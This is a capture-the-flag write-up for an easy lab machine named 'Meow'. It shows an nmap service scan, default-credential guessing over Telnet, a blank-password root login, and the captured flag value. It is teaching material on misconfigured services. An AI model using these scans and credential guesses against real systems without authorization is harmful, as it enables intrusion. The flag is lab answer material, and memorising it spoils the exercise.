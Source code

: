 
**Box Name**: Meow
**Difficulty**: Easy  
**Objective**: Exploiting Misconfigured Telnet Exploitation
**Tools Used**: Nmap


### Introduction

**What it is?** Telnet is a network protocol used to provide a text-based communication to remotely access a system over a network. 
**Port?** 23
**What you can do with it?** Allows users to execute command remotely on a remote server or device as if they were physically present. Has been largely obsolete these days due to its lack of security.

Basically, the client initiates a conntection to the server. Once connected the server grants a CLI for interaction. All credentials are transmitted in plain text making it highly vulnerable to eavesdropping attacks.

**Command**:
```
telnet <hostname or ip address> <port>
```


### Enumeration

Assuming your connections are established and the ping was successful.
We use Nmap which is a Network Mapper whose goal is to send requests to ports of your choice, or all 65535 or even by default the top 1000 ports and returns which are open, filtered or closed.

This time we will use Nmap with the -sV flag to enumerate the services and their versions being used. Do this as:

```
$ sudo nmap -sV 10.129.1.17
[sudo] password for ghost: 

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-13 13:53 IST
Nmap scan report for 10.129.1.17
Host is up (2.3s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.29 seconds
```

Clearly, it can be observed that at port number 23, Telnet with Linux Telnetd is open.
Also, the server uses a Linux OS.


### Trying Telnet Connection

After knowing telnet is open at 23, let's fire telnet up at ip address 10.129.1.17 as:
```
$ telnet 10.129.1.17
Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login:
```

Let's try to bruteforce our way in. I tried combinations:
- admin: admin
- admin: 
- : admin
But none of the defaults worked.

However, sometimes due to confiuration mistakes, some important accounts are left with blank passwords for easy accessibility. Some typic important accounts are:
- admin
- administrator
- root

After trying the three, here's what we got:
```
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 13 Dec 2024 08:24:24 AM UTC

  System load:           0.03
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             146
  Users logged in:       0
  IPv4 address for eth0: 10.129.1.17
  IPv6 address for eth0: dead:beef::250:56ff:fe94:b381

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```

Voila! We have remote access.


### FInding the Flag

(It's ironic for me to say finding the flag, but technically I am)
Let's go ahead and list all files using `ls` command.
```
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```

Flag: `b40abdfe23665f766f9c61ecba8a4c19`